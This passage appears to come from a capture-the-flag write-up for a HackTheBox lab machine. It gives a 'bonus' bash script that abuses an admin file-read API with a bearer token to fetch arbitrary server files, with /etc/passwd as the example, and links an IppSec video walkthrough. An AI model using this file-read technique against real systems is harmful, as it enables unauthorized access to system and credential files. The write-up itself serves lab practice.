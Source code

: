 ## Bonus

- If you do not want to manually fetch the file with burp you can use this script from ippsec's video writeup (see link in resource), it will fetch the files without the annoying chars by using tr
```
#! /bin/bash

# usage: ./getfile.sh /etc/passwd  

TOKEN=<YOUR-TOKEN-HERE>
b64url=$(echo -n $1 | base64 | tr '/+' '_-' | tr -d '=')

curl -s http://10.10.11.162/api/v1/admin/file/${b64url} -H "Authorization: Bearer $TOKEN" | jq .file -r
```

## Resources

- [Ippsec walkthrough of the box](https://youtu.be/QfAh47RlZjw)

